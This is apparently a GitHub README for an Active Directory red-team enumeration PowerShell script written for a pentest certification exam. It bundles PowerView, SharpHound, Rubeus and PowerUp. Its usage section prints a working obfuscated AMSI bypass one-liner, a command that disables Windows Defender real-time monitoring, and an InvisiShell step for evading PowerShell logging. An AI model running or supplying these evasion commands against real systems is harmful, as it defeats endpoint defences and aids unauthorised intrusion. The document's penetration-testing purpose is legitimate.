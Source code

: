 # ADRedTeamEnumScript

This AD Red Team Enumeration Script is used to query a lot of aspects of your target Forest. The script will save all output from each enumeration task into a folder separating out the output files into appropriate folders for analyze later. This script saved me a lot of time on the enumeration portion for the [Pentester Academy CRTE](https://www.pentesteracademy.com/redteamlab) exam. Will be extremely useful for any traditional AD pentesting engagement. The script contains more information within it to help you enumerate discovered resources further, so ensure you read the commented out portions! 

This script is also designed to run other popular scripts and modules intended to get the most information out of your target AD Domain. You should look into their project to understand the full capabilities of the tools besides the small task performed within this script.

* [Microsoft AD Module (Powershell)](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2019-ps)
* [Invishell](https://github.com/OmerYa/InvisiShell)
* [ADACLScan](https://github.com/canix1/ADACLScanner)
* [Find-PSServiceAccounts](https://github.com/PyroTek3/PowerShell-AD-Recon)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)
* [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)
* [Rubeus](https://github.com/GhostPack/Rubeus/releases/tag/1.6.4)

## Usage

Not necessary to be an admin to run the script, but of course easier to get around most security features, heres a few tips that will help prevent the script from being blocked:

### Bypassing PowerShell Security

**To avoid verbose PowerShell logging - use [invishell](https://github.com/OmerYa/InvisiShell) (RunWithRegistryNonAdmin)**
        ```C:\PATH\TO\SCRIPTS\InviShell\RunWithRegistryNonAdmin.bat```

**AntiMalware Scan Interface (AMSI) may detect some tools when you load them. Uses the following AMSI bypass:**
```sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )```

**Stop Windows Defender (need to be admin)**
```Set-MpPreference -DisableRealTimeMonitoring $true```
                             
After which you can run the script to enumerate your target. Now we can run the script on the vitim system that in joined to your target AD domain.

1. Download the repo and rename folder as 'scripts' or whatever you choose, but you'll need to modify the ADRedTeamEnumScripts.ps1, ComputersUsersGroups.ps1, DomainInfoTrusts.ps1, DCEnum.ps1 and GPOInfo.ps1 scripts in order for everything to work correctly. This repo includes the modules and scripts you need already inside the `bin` folder.

Want to do it manually:

1. Download all the scripts/tools mention above.

2. Store them in a folder called `bin`, inside another folder called `scripts`. 

3. Add the enumeration scripts inside the folder `scripts`. As shown below:

![ADredTeamEnumScript2](https://user-images.githubusercontent.com/20993128/129828201-8302ade2-9926-4c7b-ab9f-6433b997bd09.png)

4. Run the first full script:

```.\ADRedTeamEnumScripts.ps1```

![ADredTeamEnumScript](https://user-images.githubusercontent.com/20993128/129827187-3b424d44-436d-44ad-95ed-aa2cfe0ea8c2.png)

## Author
- [@n3t1nv4d3](https://twitter.com/n3t1nv4d3) author and researcher (https://github.com/n3t1nv4d3).
- Sources for other scripts used are linked to their names up above, thanks to your work I was able to create my personalize enum script. 
